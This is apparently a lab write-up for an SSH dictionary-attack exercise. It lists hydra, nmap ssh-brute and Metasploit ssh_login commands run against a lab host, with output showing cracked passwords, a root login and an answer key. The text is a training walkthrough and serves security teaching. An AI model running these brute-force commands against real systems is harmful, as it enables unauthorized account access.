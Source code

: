 #### Tools
nmap
gzip
ssh
hydra
msfconsole

#### Commands
Unzip wordlest
```
gzip -d /usr/share/wordlists.rockyou.txt.gz
```

Brute force ssh with hydra and rock you word list
```
hydra -l student -P /usr/share/wordlists/rockyou.txt target_ip ssh
```

Brute force ssh for password with username
```
nmap target_ip -p 22 --script ssh-brute --script-args userdb=user 
```

Get a user password with msfconsole
```
msfconsole
use auxiliary/scanner/ssh/ssh_login
show options
set rhost target_ip
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
options
```

## Lab
### Questions
1.  Find the password of user “student” using hydra.

```
hydra -l student -P rockyou.txt  192.154.144.3 ssh

[22][ssh] host: 192.154.144.3   login: student   password: friend
```

2.  Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst

```
hydra -l administrator -P /usr/share/nmap/nselib/data/passwords.lst 192.154.144.3 ssh

[22][ssh] host: 192.154.144.3   login: administrator   password: sunshine

nmap 192.154.144.3 --script ssh-brute --script-args userdb=users

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 29 guesses in 6 seconds, average tps: 4.8
MAC Address: 02:42:C0:9A:90:03 (Unknown)
```

3.  Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt

```
metasploit

set LHOST 192.154.144.2
user auxiliary/scanner/ssh/ssh_login

set RHOST 192.154.144.3
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set VERBOSE true
set STOP_ON_SUCCESS true

exploit

[-] 192.154.144.3:22 - Failed: 'root:'
[-] 192.154.144.3:22 - Failed: 'root:!root'
[-] 192.154.144.3:22 - Failed: 'root:Cisco'
[-] 192.154.144.3:22 - Failed: 'root:NeXT'
[-] 192.154.144.3:22 - Failed: 'root:QNX'
[-] 192.154.144.3:22 - Failed: 'root:admin'
[+] 192.154.144.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-152-generic #169-Ubuntu SMP Tue Jun 6 22:23:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux '
```

4.  What is the message of the day? (Printed after the user logs in to the SSH server).

```
ssh root@192.54.144.3
password=attack

cat /etc/motd

SSH recon dictionary attack lab
```
### Answers

1. friend 
2. sunshine
3. attack